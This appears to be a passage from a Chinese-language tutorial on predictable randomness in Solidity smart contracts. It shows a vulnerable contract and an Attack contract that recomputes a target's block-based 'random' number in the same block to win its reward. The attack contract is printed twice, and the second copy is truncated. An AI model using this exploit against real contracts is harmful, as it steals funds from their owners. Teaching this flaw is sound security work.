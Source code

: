 ```
pragma solidity ^0.6.6;
 
contract simpleVulnerableBlockHash {
    uint32 public block_number;
    bytes32 public myHash;
 
	function get_block_number() public  {   
                 block_number = uint32(block.number);
         }

	function set_hash() public{
                myHash = bytes32(blockhash(block_number));
        }

	 function wasteTime() public{
					uint test = uint(block.number);
	 }
}
```

#### 同区块block属性相同:

##### 原理:

且在同一区块中 block.number 和 block.timestamp 这两个参数是不变的，所以，Attack.attack() 和 guessTheRandomNumber.guess() 这两个函数生成的随机数的结果是相同的，从而攻击者可以顺利通过 if(_guess == answer) 判断得到奖励。

##### 代码:

```
pragma solidity ^0.8.13;
contract Attack {
    receive() external payable {}

    function attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        guessTheRandomNumber.guess(answer);
    }

    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

```

```
pragma solidity ^0.8.13;
contract Attack {
    receive() external payable {}

    function attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        guessTheRandomNumber.guess(answer);
    }

    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
```